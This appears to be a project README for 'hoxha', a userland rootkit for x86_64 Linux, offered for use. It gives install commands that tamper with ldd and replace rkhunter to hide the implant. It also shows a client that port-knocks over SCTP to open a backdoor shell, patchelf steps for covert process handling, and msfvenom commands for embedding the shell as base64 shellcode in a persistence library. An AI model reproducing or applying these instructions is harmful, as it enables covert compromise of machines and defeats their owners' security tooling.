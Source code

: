 # hoxha
A userland rootkit for x86_64 Linux that was meant to be everything <a href="https://github.com/mephistolist/tito">Tito</a> was not. As Enver Hoxha was Tito's next door neighbor and completely opposed in ideology, there was no more a fitting name. Hoxha was also known for being very paranoid, so a lot more detection-evasion was used.   

<p align="center">
  <img src="https://upload.wikimedia.org/wikipedia/commons/f/fe/Enver_Hoxha_%28portret%29.jpg" width="50%" height="50%" />
</p>

You can download this like so:
```
git clone https://github.com/mephistolist/hoxha.git
```
If you are not on a Debian based system, you will want to run this to change to the name of your python binary:
```
sed -i 's/python3/python/g' hoxha/persistance/libexec.c; sed -i 's/python3/python/g' hoxha/persistance/libhide.c  
```
Considering SCTP is installed and loaded in the kernel, you can install the rootkit this:
```
cd hoxha && sudo make install clean && cd persistance && [ -f ./patchelf ] && chmod +x ./patchelf && sudo make install clean && sudo sed -i 's/try_trace \"$RTLD\" \"$file\" || result=1/try_trace \"$RTLD\" \"$file\" | grep -vE \"libc.so.4|libc.so.5\" || result=1/g' /usr/bin/ldd && [ -f $(which rkhunter) ]  && sudo cp ./rkhunter $(which rkhunter) 2>/dev/null; cd -;
```
The client can be used with just the destionation ip address where this rootkit is installed:
```
# ./enver 127.0.0.1
[+] SCTP knock sequence sent.
[*] Connecting to SCTP shell at 127.0.0.1:5000...
[+] Connected. Type commands (type 'exit' to quit):
sctp-shell>
```
As SCTP ports are hard to close, I would suggest updating this with the paths to where you have the 'hoxha' folder and running this when exiting the shell:
```
/home/user/hoxha/persistance/patchelf --remove-needed /lib/x86_64-linux-gnu/libc.so.5 $(which killall) && killall -9 hoxha && systemctl restart cron && /home/user/hoxha/persistance/patchelf --add-needed /lib/x86_64-linux-gnu/libc.so.5 $(which killall)
```
This will ensure that only one port is left listening for future connections.

If you wish to edit or just build the shell from source you can do so by just typing 'make' the root directory. Using 'make install' will give a binary at /usr/bin/hoxha. You can then run this with msfvenom:
```
msfvenom -p linux/x64/exec CMD=/usr/bin/hoxha -f raw -o shellcode.bin -b "\x00\x0a\x0d"
```
Then you can base64 the raw data like so:
```
cat shellcode.bin | base64
```
Add that base64 encoded string to the hoxha/persistance/libexec.c file and re-run the Makefile in the persistance folder to apply your changes.

Currently tested for Debian Trixie. Other distos may work or require manual intervention. 
